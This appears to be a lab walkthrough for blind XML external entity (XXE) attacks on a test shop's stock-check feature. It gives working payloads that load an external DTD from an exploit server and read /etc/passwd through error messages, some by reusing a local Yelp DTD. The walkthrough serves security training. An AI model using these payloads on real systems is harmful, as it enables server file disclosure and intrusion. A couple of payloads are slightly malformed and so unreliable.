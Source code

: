 Visit a product page, click "check stock" and send the request to Burp Repeater

Insert the external entity definition in between the XML declarations and the original element 
```
<!DOCTYPE foo [!ENTITY % xxe SYSTEM "https://exploit-server.com/exploit.dtd"> %xxe;]>
```
Replace the productId parameter value in the original element with a reference to the external entity "%xxe;" and send the request

In Burp-Collaborator, click "poll now" and observe there are multiple DNS and HTTP interactions from the application

### Exploiting blind XXE to retrieve data via error messages using a malicious external DTD
Place the Burp Collaborator payload into a malicious DTD file
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
Go to exploit server and save the malicious DTD file on the server and take note of the URL

Visit a product page, click "check stock" and send the request to Burp Repeater

Insert the external entity definition in between the XML declarations and the origina element
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "exploit-server.com"> %xxe;]>
```
Replace the productId parameter value in the original element with a reference to the external entity "%xxe;" and send the request

An error should be in the response including the contents of /etc/passwd file

### Exploiting blind XXE by repurposing a local DTD
Visit a product page, click "check stock" and send the request to Burp Repeater

Insert the external entity definition in between the XML declarations and the original element to locate an existing DTD file
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```
Replace the productId parameter value in the original element with a reference to the external entity "%local_dtd;" and send the request

Observe the response did not include an error meaning there is a DTD file called docbookx.dtd

Erase the previous external entity and replace with below XML external entity definition to submit the payload
```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
This will import the Yelp DTD, then redefine the ISOamso entity, triggering an error message containing the contents of the /etc/passwd file.
